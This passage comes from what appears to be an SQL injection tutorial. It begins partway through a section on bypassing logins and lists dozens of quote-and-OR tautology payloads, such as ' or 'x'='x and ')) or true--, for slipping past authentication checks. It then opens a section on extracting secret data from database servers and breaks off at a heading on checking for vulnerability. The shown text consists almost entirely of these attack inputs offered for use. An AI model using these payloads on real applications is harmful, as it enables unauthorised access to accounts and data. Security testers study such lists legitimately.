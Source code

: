such combinations are:
```
')) or true--
')) or ((''))=(('
')) or 1--
')) or (('x'))=(('
```

Anothers Payloads:
```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```
That's all about bypassing logins.

# 0x05 ~ Accessing Secret Data

SQL injection is not essentially done for bypassing logins only but it is also used for accessing the sensitive and secret data in the DB servers. This part is long, so I would be discussing in the subsections.

#### 0x05.a ~ Checking for vulnerability
